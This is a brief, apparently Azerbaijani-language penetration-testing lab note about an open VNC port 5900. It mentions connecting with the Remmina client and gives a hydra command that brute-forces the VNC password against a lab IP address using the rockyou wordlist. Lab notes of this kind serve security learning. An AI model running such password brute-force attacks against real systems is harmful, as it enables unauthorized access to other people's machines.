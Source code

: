 VNC 5900 portu aciqdirsa 
reminna toolu ile istifade ederek vnc version 3.8

    hydra   -P /usr/share/wordlists/rockyou.txt 10.10.220.39 vnc 
